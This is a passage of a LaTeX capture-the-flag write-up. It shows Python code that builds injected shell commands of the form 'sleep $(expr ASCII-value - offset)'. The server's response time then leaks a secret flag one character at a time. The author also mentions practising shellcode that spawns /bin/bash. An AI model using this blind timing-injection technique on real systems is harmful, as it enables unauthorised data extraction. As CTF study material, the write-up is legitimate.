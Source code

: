 \documentclass{article}
\begin{document}
To speed the extraction up I implemented this function:
\begin{lstlisting}[language=Python]
# 1 indexed
# will sleep for the ascii value - the given ofset
def sleep_ascii_offset(idx, offset):
    code = sub_str(idx, idx)
    code += b" | od -An -tuC | awk '{$1=$1; print}' | cut -d' ' -f1"
    code = b'expr $( ' + code + b' ) - ' + str(offset).encode()
    code = b'sleep $(' + code + b')'
    return code
\end{lstlisting}

My first idea was to start at 128 offset(highest printable ascii value) and increase it until I get measure sleep time (offset < ascii value). I had some strange issues where the output didn't make sense. Looking at the undo tree of my editor there are several branches with about 100 different states but this state I think shows my idea(not part of the final source code):
\begin{lstlisting}[language=Python]
flag=""
for i in range(0, 15):
    j = 0
    while 1:
        code = sleep_ascii_offset(i, 128 - j)
        print(f"script : {code.decode()}")
        print(f"cur flag: {flag}")

        runtime = send_code(code)
        time.sleep(0.3)
        if runtime >= 1.0:
            flag += chr(int(128 - j))
            break
        j = j + 1
\end{lstlisting}

18 hours into the CTF event, I didn't have the will to debug it and went with a simpler solution.
I removed this transfer optimization and went with a constant offset of 33. This would skip the unprintable ascii range and save 33 seconds for each char. To extract the flag I wrote this loop:
\begin{lstlisting}[language=Python]
flag = ""
for i in range(1, flag_len + 1):
    code = sleep_ascii_offset(i, 33)
    print(f"script : {code.decode()}")
    runtime = send_code(code)
    flag += chr(int(runtime + 33))
    print(f"cur flag: {flag}")

print(f"finished flag: {flag}")
\end{lstlisting}
I decided that the server is probably fine if I sleep it for an extended amount of time and in the worst case will timeout the script executing my code. This never happened and after about 15 Minutes I managed to leak the full flag. Also the data noise concern I had before (coming from server lags) never actually showed.


\section{Perspective}
My experience in terms of software/systems knowledge lies in the low level stuff. Preparing for this CTF I mostly prepared for binary exploitation. In the days before the event I focused on shellcode(binary op-codes that lead to execve("/bin/bash", 0, 0)) injection. This gave me practice in wiggling my way through conditions with minimal use of tools.
\end{document}
